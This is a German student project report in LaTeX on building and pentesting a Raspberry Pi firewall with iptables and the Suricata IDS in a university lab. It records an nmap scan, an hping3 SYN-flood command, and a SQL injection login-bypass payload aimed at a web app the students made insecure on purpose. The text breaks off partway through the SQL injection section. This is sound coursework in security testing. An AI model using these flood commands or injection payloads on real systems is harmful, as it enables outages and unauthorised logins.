\documentclass[
    a4paper,
    pagesize,
	pdftex,
    12pt,
]{scrartcl}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage[ngerman]{babel}
\usepackage[unicode=true]{hyperref}
\usepackage[draft=false,babel,tracking=true,kerning=true,spacing=true]{microtype}
\usepackage{enumerate}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{float}
\usepackage{placeins}
\lstset{basicstyle=\ttfamily\footnotesize,breaklines=true}

\graphicspath{{./images/}}

\pagestyle{fancy}
\lhead{A. Tippe, C. N. Jänicke, I. Bingöl, P. Rahmani}
\rhead{\includegraphics[height=10mm]{S04_HTW_Berlin_Logo_pos_FARBIG_RGB.jpg}}
\cfoot{\thepage}
\renewcommand{\headrulewidth}{0.6pt}
\renewcommand{\footrulewidth}{0.6pt}

\begin{document}

\begin{titlepage}
    \begin{center}
        \includegraphics[height=25mm]{S04_HTW_Berlin_Logo_pos_FARBIG_RGB.jpg} \\
        \vspace{1.0cm}
        Dokumentation der Projektarbeit \\
        \vspace{1.5cm}   
        \textbf{Projektarbeit im Modul Informationssicherheit} \\
        \vspace{1.5cm}
        vorgelegt von \\
        \textbf{Adrian Tippe 584501} \\
        \textbf{Christoph Nicklas Jänicke 584533} \\
        \textbf{Ilkaan Bingöl 584398} \\
        \textbf{Parham Rahmani 580200} \\
        \vspace{1.5cm}    
        Berlin, \today\\
    \end{center}
\end{titlepage}

\pagenumbering{gobble}

\thispagestyle{empty}
\tableofcontents
\newpage

\pagenumbering{arabic}

\section{Einführung}
Im Rahmen  des  Kurses Informationssicherheit,  im Sommersemester 2024, sollte in einer Projektarbeit eine Firewall aufgebaut,  konfiguriert  und getestet werden. \\
In  diesem Dokument wird die Konfiguration  der  einzelnen Komponenten sowie der Penetrationstest dieser Firewall beschrieben.

\subsection{Skripts und Anwendungen}
Alle genutzten Skripts sowie die Python-Anwendung auf dem Webserver wurden eigens erstellt und sind in den öffentlichen GitHub-Repositories \url{https://github.com/c-jaenicke/itsec-misc} und \url{https://github.com/parhamrahmani/Implementation_Webserver_GP3} zu finden.

\newpage
\section{Aufbau des Informationsverbunds und Informationsfluss}
Folgende Kapitel beschreiben den Aufbau des Informationsverbundes  sowie den Informationsfluss innerhalb.

\subsection{Informationsverbund}
Folgendes Diagramm zeigt den Informationsverbund:
\begin{figure}[!ht]
	\centering
	\includegraphics[width=10cm]{aufbau-netzwerk.png}
	\caption{Aufbau des Informationsverbunds}
	\label{fig:boat1}
\end{figure}
\\
Der Laptop dient als Client, um auf den Webserver zuzugreifen und als Client für  Penetrationstests.  \\ \\
Die Firewall, ein RPi 4, setzt eine Firewall und ein  Intrusion Detection System (IDS) um. Dieses soll den Webserver schützen und den Datenverkehr  kontrollieren.  \\ \\
Der Webserver, ein RPi 3b, stellt eine eigens programmierte Python-Anwendung mit einem NGINX-Webserver um. \\ \\
Der Switch verbindet alle Geräte im Informationsverbund.  Zu den  gezeigten Komponenten können noch zusätzlich  2 weitere  Clients  angeschlossen werden. \\ \\
Der Server der Firewall wird in den kommenden Kapiteln als Firewall bezeichnet. Der Server des Webservers wird als Webserver bezeichnet. \\ \\

\subsection{Informationsfluss}
Folgendes Diagramm stellt den Informationsfluss im Verbund dar:
\begin{figure}[!ht]
	\centering
	\includegraphics[width=10cm]{informationsfluss.png}
	\caption{Aufbau des Informationsverbunds}
	\label{fig:boat2}
\end{figure}
\\
Beginnend beim Client wird eine Anfrage an die Firewall gesendet, diese leitete die Anfrage, mittels einer Forwading-Regel, nachdem diese gefiltert und überprüft wurde, an den Webserver weiter. Dieser bearbeitet die Anfrage und führt ggf. eine Datenbankabfrage durch. Die Antwort wird anschließend wieder an die Firewall gesendet, welche diese an den Client weiterleitet. \\
Es findet keine direkte Kommunikation zwischen dem Client und dem Webserver statt. Der Datenverkehr läuft immer über die Firewall
\\ \\
Der Switch wird in dem Informationsfluss nicht behandelt, da dieser lediglich die physische Verbindung der Komponenten realisiert und keine sonstige Funktion oder Filter umsetzt.

\newpage
\section{Aufgabenblatt 1}

Folgende Abschnitte zeigen und erläutern die Konfiguration der einzelnen iptables-Paketfilter.

\subsection{Firewall}\label{config-firewall-fw}
Im folgenden werden die Anforderungen und die Konfiguration von iptables auf der Firewall erläutert.

\subsubsection{Anforderungen}
Folgende Anforderungen wurden aus dem Aufgabenblatt 1 identifiziert und werden zusätzlich für die Administration und den normalen Betrieb benötigt:
\begin{table}[h!]
	\begin{center}
		\label{tab:table3}
		\begin{tabular}{ r | l | l }
			\textbf{Port} & \textbf{Protokoll} & \textbf{Dienst} \\
			\hline
			22 & TCP & SSH \\
			53 & TCP & DNS \\
			53 & UDP & DNS \\
			123 & UDP & NTP \\
			80 & TCP & HTTP \\
			443 & TCP & HTTPS \\
			143 & TCP & Outlook IMAP \\
			993 & TCP & Outlook IMAP \\
			110 & TCP & Outlook POP3 \\
			995 & TCP & Outlook POP3 \\
			587 & TCP & Outlook SMTP \\
			5938 & TCP & TeamViewer \\
			5938 & UDP & TeamViewer \\
			8081 & TCP & TeamViewer \\
		\end{tabular}
		\caption{Benötigte Ports auf der Firewall}
	\end{center}
\end{table}
\\
Bei den Freigegeben Ports wurden die Richtlinien und Anforderungen der jeweiligen Hersteller \cite{ashaiyengar-2023}, \cite{teamviewer-2024} beachtet. \\ \\
Port 22 wird für SSH genutzt um den Server zu administrieren. \\
Die Ports 53 und 123, entsprechend DNS und NTP, werden für den regulären Betrieb des Servers benötigt. NTP wird benötigt um die korrekte Zeit zu haben und das Logging und Auswerten zu vereinfachen. \\
Ports 80 und 443 werden für den HTTP-Verkehr genutzt, damit verbundene Clients, wie Mitarbeiter, Zugang zum Internet erhalten. \\
Da sich kein lokaler E-Mail- oder Exchange-Server im Verbund auf Arbeitsblatt 1 befindet, wird davon ausgegangen das es einen externen Server gibt. Die Ports 143 und 993, 110 und 995 sowie 587 ermöglichen verschiedene Wege der Anmeldung auf diesem Server. \\
TeamViewer benötigt den Port 5938 um den Zugang zu ermöglichen. \\
Der Lizenzserver von Delftship benötigt den Port 8081 \cite{delftship}.

\subsubsection{Skripte}
Nach den Vorgaben aus Aufgabenblatt 1 und den identifizierten Anforderungen ergeben sich die folgende Skripte für iptables. Alle Skripte müssen mit  Root Rechten ausgeführt werden.  Iptables Regeln wurden gemäß der iptables man page \cite{iptables-manpage} angelegt. \\ \\ 
Bei allen folgenden Skripten werden anfangs alle bestehenden Regeln gelöscht, um Konflikte mit den neuen Regeln zu verhindern. \\ \\
Folgender Skript schließt alle Ports der Firewall:
\lstinputlisting[breaklines]{./scripts/all-ports-closed.sh}
Folgender Skript öffnet die Firewall komplett und erlaubt jede Art von Datenverkehr:
\lstinputlisting[breaklines]{./scripts/all-ports-open.sh}
Folgender  Skript setzt die Anforderungen für die Umgebung um und ermöglicht das Forwarding auf den Webserver. Zusätzlich  wird  Datenverkehr auf dem  loopback-Interface erlaubt. \\
Dieser Skript wird durch einen Cron-Job direkt nach dem Boot ausgeführt, siehe Kapitel \ref{cron-job}.
\lstinputlisting[breaklines]{./scripts/ports-prod.sh}
Es wird davon ausgegangen das sich weitere Clients hinter der Firewall befinden, welche auf das Internet und E-Mail-Server zugreifen wollen, die Firewall also nicht nur den Webserver schützt.
\\ \\
Wir haben uns für einen restriktiven Allowlist-Ansatz \cite{allowlist} für ausgehende Pakete entschieden. Bei welchem alle ausgehenden Pakete standardmäßig fallen gelassen werden, und nur bestimmte Ports ausgehende Daten verschicken können. Dadurch wird gegen das ungewollte oder unbewusste Senden von Daten geschützt.
\\ \\
Um das Forwarding von IPv4 Paketen zu ermöglichen musste der Kernel-Parameter \lstinline[breaklines]|net.ipv4.ip_forward| auf 1, statt 0, gesetzt werden \cite{ipv4forward-kernel}. 

\subsection{Webserver}\label{config-firewall-ws}
Im folgenden werden die Anforderungen an die iptables-Regeln auf dem Webservers beschrieben und der Skript der diese umsetzt gezeigt.

\subsubsection{Anforderungen}
Folgende Ports wurden als relevant identifiziert um dem Webserver zu administrieren und die Python-Anwendung bereitzustellen:
\begin{table}[h!]
	\begin{center}
		\label{tab:table4}
		\begin{tabular}{l|l |l }
			\textbf{Port} & \textbf{Protokoll} & \textbf{Dienst} \\
			\hline
			22 & TCP & SSH \\
			80 & TCP & HTTP \\
		\end{tabular}
		\caption{Benötigte Ports auf dem Webserver}
	\end{center}
\end{table}

\subsubsection{Skript}
Folgender  Skript setzt die iptables Regeln auf dem Webserver. Der  Skript muss mit Root Rechten ausgeführt  werden.
Iptables Regeln wurden gemäß der iptables man page \cite{iptables-manpage} angelegt. \\
Der Skript wird direkt am Boot mittels eines Cron-Jobs ausgeführt, siehe Kapitel \ref{cron-job}.
\lstinputlisting[breaklines]{./scripts/ports-webserver.sh}
Zuerst werden  alle bestehenden Regeln gelöscht, um Konflikte vorzubeugen. \\
Der Skript ermöglicht den Managementzugang mittels SSH sowie Pings auf und vom  Server. \\
Der HTTP-Verkehr wird auf die IP-Adresse \lstinline[breaklines]|192.168.0.220|, die Firewall, beschränkt. Anderen Clients ist es also nicht möglich den Webserver direkt anzufragen. \\
Besonders relevant ist es den Verkehr auf dem Loopback-Interface zuzulassen, da die Python-Anwendung dies benötigt um auf die Datenbank zuzugreifen.

\subsection{Test der iptables Regeln}

\subsubsection{Ping}
Im folgenden wurde ein einfacher Ping, mit dem Befehl \lstinline[breaklines]|ping -4 -c 5 192.168.0.220|.
Folgende Parameter wurden genutzt \cite{ping-manpage}:
\begin{enumerate}
	\item \lstinline[breaklines]|-4|: Benutze ausschließlich IPv4, da die Server nur eine IPv4 Adresse und keine IPv6 Adressen haben.
	\item \lstinline[breaklines]|-c 5|: Sende insgesamt 5 Pakete. 5 Pakete wurden als ausreichend beurteilt um die Funktion der Firewall zu zeigen. 
\end{enumerate}

Die folgende Abbildung zeit das Ergebnis des Pings, wenn alle Ports offen sind:
\begin{figure}[H]
	\centering
	
\includegraphics[width=12cm]{ping-all-open.png}
	\caption{Ergebnis den Pings bei allen Ports offen}
	\label{fig:ping-all-open}
\end{figure}

Die nächste Abbildung zeigt das Ergebnis des Pings mit allen Ports geschlossen und der production Regeln:
\begin{figure}[H]
	\centering
	
\includegraphics[width=12cm]{ping-all-closed.png}
	\caption{Ergebnis den Pings bei geschlossen Ports und production Setup}
	\label{fig:ping-all-closed}
\end{figure}
Man kann sehen das keiner der Pings erfolgreich war. Das liegt daran das bei beiden Regelsätzen das ICMP-Protokoll, welches für Pings genutzt wird, blockiert wird.

\subsubsection{NMAP Scan}
Sowohl der Webserver als auch die Firewall wurden mit dem Befehl  \lstinline[breaklines]|sudo nmap -sS -sC -O -p- <ip des ziels>| mittels NMAP gescanned. 
Folgende Parameter wurden genutzt \cite{nmap-manual}:
\begin{enumerate}
	\item \lstinline[breaklines]|-sS|: Führe einen ''SYN Scan'' bzw. ''Stealth Scan'' durch. Damit wurden die offenen TCP-Ports gescanned. 
	\item \lstinline[breaklines]|-sC|: Führe einen ''Script Scan'' durch. Hierbei werden verschiedene Scripte eingesetzt um mehr Informationen über verschiedene Ports und Dienste zu erhalten.
	\item \lstinline[breaklines]|-O|: Versuche das Betriebssystem des Ziels zu erhalten.
	\item \lstinline[breaklines]|-p-|: Scanne alle Ports von 1 bis 65535.
\end{enumerate} 
Folgende Ergebnisse ergab der NMAP-Scan der Firewall und des Webservers: \\ \\
\begin{figure}[!ht]
	\centering
	\includegraphics[width=15cm]{nmap-scan-firewall.png}
	\caption{Ergebnis NMAP-Scan Firewall}
	\label{fig:nmapfirewall}
\end{figure} 
\begin{figure}[!ht]
	\centering
	\includegraphics[width=15cm]{nmap-scan-webserver.png}
	\caption{Ergebnis NMAP-Scan Webserver}
	\label{fig:nmapwebserver}
\end{figure}
\\ \\
Hervorzuheben ist, dass der Scan der Webservers nur den Port 22, SSH, gefunden hat, nicht den Port 80 für den NGINX-Server. Die Regel, das Port 80 auf dem Webserver nur auf Anfragen von der IP-Adresse der Firewall annimmt funktioniert dementsprechend.
\\ \\
Zudem war Suricata in der Lage den NMAP-Scan, den Script-Scan, zu entdecken und zu melden.
\begin{figure}[!ht]
	\centering
	\includegraphics[width=17cm]{suricata-detection-nmap-scan.png}
	\caption{Logs von Suricata bei der Durchführung des NMAP-Scans}
	\label{fig:nmapsuricata}
\end{figure}

\subsubsection{DOS Angriff}
Zusätzlich wurde ein Denial Of Service (DoS) Angriff auf die Firewall durchgeführt, hierfür wurde das Tool hping3 eingesetzt, mit folgenden Paramtern \cite{hping-kalitools}:
\begin{enumerate}
	\item \lstinline[breaklines]|-S|: Setze die SYN-Flag bei TCP Paketen, um eine legitime Anfrage über TCP zu simulieren
	\item \lstinline[breaklines]|--flood|: Sende Pakete so schnell wie möglich
	\item \lstinline[breaklines]|-V|: Genauerer Output
	\item \lstinline[breaklines]|-p 80|: Sende die Pakete an Port 80 des Ziel
	\item \lstinline[breaklines]|192.168.0.220|: IP-Adresse des Ziels
\end{enumerate}

Der folgende Screenshot zeigt das Ausführen von hping3 im Terminal:
\begin{figure}[H]
	\centering
	
\includegraphics[width=12cm]{dos-hping3.png}
	\caption{Screenshot von der Ausführung von hping3}
	\label{fig:dos-hpgin3}
\end{figure}

Die folgende Abbildung zeit die Auslastung der Firewall wie sie in htop dargestellt wird:
\begin{figure}[H]
	\centering
	
\includegraphics[width=12cm]{dos-htop.png}
	\caption{Screenshot von der Auslastung der Firewall während des DoS Angriffs}
	\label{fig:dos-htop}
\end{figure}
htop ist ein Tool welches die derzeitige Auslastung der Hardware eines Systems grafisch darstellt. Man kann sehen, dass die CPU zu fast 100\% ausgelastet ist. Die Firewall ist nicht mehr in der Lage auf andere Anfragen zu antworten, andere Prozesse werden deutlich verlangsamt. \\
Der Webserver war auch nicht mehr über die Firewall erreichbar.
\\ \\
Suricata hat zudem bei der Durchführung des DoS Angriffs ausgeschlagen und die fehlerhafte TCP Übertragung gemeldet:
\begin{figure}[H]
	\centering
	
\includegraphics[width=17cm]{suricata-spam-dos.png}
	\caption{Einzelne Zeile der Logs von Suricata während des DoS Angriffs}
	\label{fig:dos-suricata}
\end{figure}

\newpage
\section{Aufgabenlatt 2}
Folgende Abschnitte beschreiben die Konfiguration der Firewall und des Webservers.

\subsection{Firewall}
Der Server der Firewall nutzt als Betriebssystem die 64 Bit Variante des Raspberry Pi OS, welches auf Debian 12 Bookworm basiert. 
\\ \\
Es wurde keine vorinstallierte  Software deinstalliert. 
\\
Es wurden folgende Pakete zusätzlich installiert:
\begin{table}[h!]
	\begin{center}
		\label{tab:table1}
		\begin{tabular}{l|l }
			\textbf{Name} & \textbf{Begründung} \\
			\hline
			iptables & Firewall, Alternative zur Vorinstallierten Firewall nftables \\
			suricata & Intrusion Detection System \\
			nvim & Texteditor zum bearbeiten von Konfigurationsdateien \\
			zsh & Shell mit besserer Auto-Complete-Funktion \\
			tmux & Terminal Multiplexer zum einfachen Verwalten über SSH \\
		\end{tabular}
		\caption{Zusätzlich installiere Software auf der Firewall}
	\end{center}
\end{table}
\\
Der standardmäßig aktivierte nftables-Dienst wurde deaktiviert um Konflikte mit iptables zu verhindern, siehe Kapitel \ref{config-firewall-fw} für die Konfiguration von iptables für den Firewall-Server. \\
SSH wurde aktiviert, es wurden keine weiteren Maßnahmen eingeleitet um die Schnittstelle zu  schützen. Es wird die Standardkonfiguration verwendet. \\
Der Suricata-Dienst wurde aktiviert und wird automatisch beim Boot gestartet, siehe Kapitel \ref{config-ids} für die Konfiguration des Intrusion Detection Systems (IDS). \\ \\
Dem Server wurde die statische IP-Adresse \lstinline[breaklines]|192.168.0.220| zugewiesen, siehe Kapitel \ref{static-ip}. Folgende Abbildung zeigt die Netzwerk-Konfiguration der Firewall:

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{interface-firewall.png}
	\caption{Interface der Firewall}
	\label{fig:interface-firewall}
\end{figure}

\subsection{Webserver}
Der Webserver nutzt als Betriebssystem die 64 Bit Variante des Raspberry Pi OS, welches auf Debian 12 Bookworm basiert. \\ \\ 
Es wurde keine vorinstallierte Software deinstalliert.\\
Folgende Software wurde zusätzlich installiert: 
\begin{table}[h!]
	\begin{center}
		\label{tab:table2}
		\begin{tabular}{l|l }
			\textbf{Name} & \textbf{Begründung} \\
			\hline
			iptables & Firewall, Alternative zur Vorinstallierten Firewall nftables \\
			nvim & Texteditor zum bearbeiten von Konfigurationsdateien \\
			zsh & Shell mit besserer Auto-Complete-Funktion \\
			tmux & Terminal Multiplexer zum einfachen Verwalten über SSH \\
			python3-pip,\\ python3-venv, \\ python3-flask,\\ python3-flask-cors, \\ python3-pymysql & Als Abhängigkeiten der Python-Anwendung \\
			mariadb-server & Datenbank für die Python-Anwendung \\
			nginx & Als Webserver für die Python-Anwendung \\
		\end{tabular}
		\caption{Zusätzlich installiere Software auf dem Webserver}
	\end{center}
\end{table}
\\
Der standardmäßig aktivierte nftables-Dienst wurde deaktiviert um Konflikte mit iptables zu verhinden, siehe Kapitel \ref{config-firewall-ws} für die Konfiguration von iptables auf dem Webserver. \\
SSH wurde aktiviert, es wurden keine weiteren Maßnahmen eingeleitet um die Schnittstelle zu  schützen. Es wird die Standardkonfiguration verwendet. \\
Der nginx-Dienst und mariadb-Dienst wurde aktiviert und wird beim Start automatisch gestartet. \\
Die Python-Anwendung wird automatisch beim Start durch einen Cron-Job gestartet, siehe Kapitel \ref{cron-job}. \\ \\
Dem Server wurde die statische IP-Adresse \lstinline[breaklines]|192.168.0.221| zugewiesen, siehe Kapitel \ref{static-ip}. Folgende Abbildung zeigt die Netzwerk-Konfiguration des Webservers:
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{interface-webserver.png}
	\caption{Interface des Webservers}
	\label{fig:interface-webserver}
\end{figure}

\subsubsection{Python-Anwendung}
Auf dem Webserver wird eine eigens programmierte Python-Anwendung betrieben. \\ \\
Diese bietet ein einfaches HTML Login Formular, sowie einen einfachen Chat in dem Nachrichten veröffentlicht werden können. \\ \\
Die Anwendung wurde absichtlich so unsicher wie möglich entwickelt um die geplanten Attacken im Pentest zu  ermöglichen.

\subsubsection{Nginx}
Um die Python-Anwendung auf Port 80 mittels NGINX zur  Verfügung zu stellen wurde die Datei \lstinline[breaklines]|myflaskapp| im Ordner \lstinline[breaklines]|/etc/nginx/sites-available/| mit folgendem Inhalt angelegt:
\lstinputlisting[breaklines]{./scripts/setup_nginx.sh}
Für diese Datei wurde anschließend ein Link mittels 
\lstinline[breaklines]|ln -s /etc/nginx/sites-available/myflaskapp /etc/nginx/sites-enabled| erstellt. \\ \\
Es wurden keine weiteren Maßnahmen unternommen um NGINX zu härten.

\subsubsection{MariaDB}
Die Datenbank wurde mit folgenden Skript initialisiert:
\lstinputlisting[breaklines]{./scripts/setup_db.sh}
Es wird ein neue Datenbank mit dem Namen \lstinline[breaklines]|mydb| angelegt. Zusätzlich wird ein neuer Nutzer \lstinline[breaklines]|admin| angelegt. Anschließend wird die Tabelle \lstinline[breaklines]|credentials| angelegt, in welcher die Daten später gespeichert werden. In diese wird ein Testnutzer hineingeschrieben. Dem Nutzer \lstinline[breaklines]|admin| werden zuletzt alle Rechte für die neue Datenbank zugeteilt. \\ \\
Es wurden keine weiteren spezifischen Konfigurationen durchgeführt um MariaDB zu schützen.

\subsection{Angriff auf den Webserver}
Im folgenden werden die Angriffe auf den Webserver, eine SQL Injection und Cross-Site-Scripting Attacke, beschrieben.

\subsubsection{SQL Injection}
Um die Anfälligkeit der Webanwendung für SQL Injection zu testen, wurde ein Angriff auf das Login-Formular simuliert. Zunächst wurde ein einfacher Test mit dem Benutzernamen \lstinline[breaklines]|';''| und einem beliebigen Passwort durchgeführt. Dies führte zu einem internen Serverfehler (HTTP 500), der wertvolle Informationen über die zugrunde liegende Datenbankabfrage preisgab.

\begin{figure}[H]
	\centering
	
\includegraphics[width=15cm]{sql-login-error-message.png}
	\caption{Fehlermeldung beim Login in der Webanwendung}
	\label{fig:sql-login-error-message}
\end{figure}

\noindent Die Analyse des Fehlerlogs in den Entwicklertools des Browsers offenbarte die verwendete SQL-Abfrage aus der Webanwendung.

\begin{figure}[H]
	\centering
	
\includegraphics[width=15cm]{sql-login-error-response.png}
	\caption{Response der Webanwendung}
	\label{fig:sql-login-error-response}
\end{figure}

\noindent Mit diesem Wissen wurde eine angepasste Injection erstellt:
\begin{lstlisting}[breaklines]
	' union select 1,'itsec','attack'; -- '
\end{lstlisting}
Diese Eingabe als Benutzername, kombiniert mit \lstinline|attack| als Passwort, ermöglicht eine unbefugte Anmeldung als \lstinline|itsec| oder potenziell als jeder andere Benutzer.

\begin{figure}[H]
	\centering
	
\includegraphics[width=15cm]{sql-injection-login-attempt.png}
